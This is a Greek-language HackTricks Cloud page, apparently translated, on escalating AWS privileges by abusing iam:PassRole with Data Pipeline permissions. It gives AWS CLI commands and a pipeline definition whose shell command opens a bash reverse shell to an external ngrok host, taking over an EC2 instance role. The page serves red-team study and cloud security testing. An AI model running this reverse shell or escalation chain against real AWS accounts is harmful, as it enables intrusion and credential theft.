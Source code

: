 # AWS - Προνομιούχα Ενίσχυση Δεδομένων

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
{% endhint %}

## datapipeline

Για περισσότερες πληροφορίες σχετικά με το datapipeline ελέγξτε:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datappipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Οι χρήστες με αυτές τις **άδειες μπορούν να ενισχύσουν τα προνόμια δημιουργώντας ένα Σωλήνα Δεδομένων** για να εκτελέσουν αυθαίρετες εντολές χρησιμοποιώντας τα **προνόμια του ανατεθειμένου ρόλου:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Μετά τη δημιουργία του pipeline, ο εισβολέας ενημερώνει τον ορισμό του για να καθορίσει συγκεκριμένες ενέργειες ή δημιουργίες πόρων:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Σημειώστε ότι ο **ρόλος** στη **γραμμή 14, 15 και 27** πρέπει να είναι ένας ρόλος **που μπορεί να υιοθετηθεί από το datapipeline.amazonaws.com** και ο ρόλος στη **γραμμή 28** πρέπει να είναι ένας **ρόλος που μπορεί να υιοθετηθεί από το ec2.amazonaws.com με ένα προφίλ EC2 instance**.

Επιπλέον, το EC2 instance θα έχει πρόσβαση μόνο στον ρόλο που μπορεί να υιοθετηθεί από το EC2 instance (έτσι μπορείτε να κλέψετε μόνο αυτόν).
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
Το **αρχείο ορισμού του pipeline, που δημιουργήθηκε από τον εισβολέα, περιλαμβάνει οδηγίες για την εκτέλεση εντολών** ή τη δημιουργία πόρων μέσω του AWS API, εκμεταλλευόμενο τα δικαιώματα ρόλου του Data Pipeline για την πιθανή απόκτηση επιπλέον προνομίων.

**Πιθανή Επίπτωση:** Άμεση αύξηση προνομίων στον καθορισμένο ρόλο υπηρεσίας ec2.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
